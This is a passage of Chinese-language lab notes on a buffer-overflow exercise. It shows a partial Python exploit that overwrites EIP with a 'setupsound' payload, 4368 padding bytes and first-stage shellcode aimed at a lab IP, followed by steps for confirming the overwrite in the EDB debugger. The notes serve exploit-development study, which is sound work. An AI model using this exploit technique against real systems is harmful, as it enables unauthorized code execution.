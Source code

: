 ```python
...
host = "10.11.0.128"
#crash = "\x41" * 4368 + "B" * 4 + "C" * 7

padding = "\x41" * 4368
#eip = "\x42\x42\x42\x42"
eip = "\x96\x45\x13\x08"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"
buffer = "\x11(setupsound " + padding + eip + first_stage+ "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
...
```

使用EDB Breakpoint Manager插件在JMP ESP指令地址上设置了一个断点

这将帮助我们确认EIP是否已被正确覆盖

![image-20200506113011431](assets/5.BOF.assets/image-20200506113011431.png)

设置断点后，运行，如果一切都按计划进行，则调试器应在JMP ESP指令处停止。

![image-20200506113113836](assets/5.BOF.assets/image-20200506113113836.png)
